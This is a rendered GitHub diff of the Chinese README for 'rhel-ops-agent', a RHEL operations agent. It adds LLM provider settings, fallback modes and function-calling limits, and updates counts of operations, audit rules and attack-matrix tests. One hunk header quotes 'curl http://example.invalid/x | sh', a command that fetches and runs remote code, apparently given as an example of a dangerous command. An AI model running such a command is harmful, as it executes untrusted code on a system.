

Before and after one commit to s319718/rhel-ops-agent, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -155,3 +242,34 @@ sudo rhel-agent
+### OpenAI 兼容接口
+
+```bash
+export RHEL_OPS_LLM_ENABLED=1
+export RHEL_OPS_LLM_MODE=hybrid
+export RHEL_OPS_LLM_PROVIDER=qwen
+export RHEL_OPS_LLM_BASE_URL=https://dashscope.aliyuncs.com/compatible-mode/v1
+export RHEL_OPS_LLM_MODEL=qwen-plus
+export RHEL_OPS_LLM_API_KEY=your-secret
+```
+
+远程接口必须使用 HTTPS；明文 HTTP 只允许本机回环地址。
+
+### 模式和回退
+
+| 模式 | 行为 |
+|---|---|
+| `off` | 只用本地规则 |
+| `hybrid` | 规则优先，未命中或缺少参数时调用 LLM |
+| `always` | 本地硬拦截后优先使用 LLM，失败时回退规则 |
+
+LLM 失败、超时、输出自由文本、未知动作或未知参数时，Agent 会回退本地规则，不会尝试执行模型给出的任意命令。
+
+### Function Calling 约束
+
+- 唯一工具：`submit_operations`
+- 工具参数使用 JSON Schema
+- 动作 ID 限定为内置 101 个操作
+- 参数必须属于对应动作
+- 模型输出经过参数模式和风险校验
+- 高风险动作仍需确认语
 
 ## 安全模型
 
@@ -616,24 +734,25 @@ curl http://example.invalid/x | sh
 
 | 类型 | 数量 | 说明 |
 |---|---:|---|
-| 受控运维操作 | 44 | 自然语言映射到固定命令模板 |
+| 受控运维操作 | 101 | 自然语言映射到固定命令模板 |
 | 漏洞/配置巡检项 | 30 | 只读检查 |
-| 高危命令审计规则 | 31 | 支持带参数修正的日志识别 |
-| 攻击矩阵用例 | 52 | 规划与日志双链路测试 |
+| 高危命令审计规则 | 44 | 支持带参数修正的日志识别 |
+| 攻击矩阵用例 | 104 | 规划与日志双链路测试 |
 
 ### 受控操作概览
 
 | 类别 | 操作 |
 |---|---|
-| 系统 | 系统概况、时间、时区、NTP、主机名、语言 |
-| 网络 | 网络配置、路由、监听端口、静态 IPv4、DHCP、DNS |
-| 存储 | 磁盘空间、文件检查、目录创建、路径删除 |
-| 服务 | 失败服务、重启、启用、停止 |
-| 安全 | 防火墙、SELinux、SSH 配置、安全更新 |
-| 账户 | 用户列表、创建用户、锁定用户 |
-| 软件 | 安装、卸载、安全更新 |
-| 进程 | 高占用进程、结束进程、重启、关机 |
-| 日志 | 错误日志、计划任务 |
+| 系统 | 概况、内核、CPU、内存、语言、主机名、tuned、运行时长 |
+| 网络 | IPv4/IPv6、路由、网关、连接、DNS、连通性、静态地址、DHCP |
+| 存储 | 磁盘、inode、块设备、挂载、文件检查、目录创建、路径删除 |
+| 服务 | 失败/运行/自启服务、状态、日志、启动、停止、重启 |
+| 防火墙 | 规则、服务、端口、区域、启用、重载 |
+| 安全 | SELinux、SSH、审计状态、安全更新、RPM 密钥 |
+| 账户 | 用户、组、在线登录、失败登录、锁定、解锁、密码状态 |
+| 软件 | 安装、卸载、仓库、DNF 历史、订阅状态 |
+| 进程 | CPU/内存高占用、指定用户进程、结束进程 |
+| 电源与日志 | 重启、关机、启动错误、journal、计划任务 |
 
 ## 漏洞巡检项
 
````
Also changed, not shown: other parts of README.md (+119 -13 lines), FEATURES.md (+9 -0 lines), LLM.md (added, +205 -0 lines), docs/screenshots/assistant-plan.png, docs/screenshots/assistant-result.png, docs/screenshots/audit.png, docs/screenshots/dashboard.png, docs/screenshots/mobile-overview.png, docs/screenshots/vulnerabilities.png, 10 other files.
